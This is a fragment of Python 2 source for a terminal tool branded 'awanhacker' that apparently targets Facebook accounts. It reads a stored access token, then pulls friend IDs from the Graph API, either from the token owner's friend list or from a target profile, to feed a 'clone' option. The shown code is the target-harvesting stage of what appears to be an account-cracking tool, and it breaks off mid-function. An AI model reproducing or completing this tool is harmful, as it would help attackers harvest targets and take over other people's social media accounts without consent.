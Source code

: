 
def pilih():
	unikers = raw_input("\n\033[1;91mChoose an Option>>> \033[1;97m")
	if unikers =="":
		print "\x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;96m--\033[1;92m> \033[1;92m1.\x1b[1;91mClone From Friend List..."
	print "\033[1;96m--\033[1;92m> \033[1;92m2.\x1b[1;91mClone From Public ID..."
	print "\033[1;96m--\033[1;91m> \033[1;91m0.\033[1;94mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;91mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mawanhacker\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[♡] \033[1;92mEnter ID link\033[1;93m: \033[1;97m")
		print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mawanhacker32\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)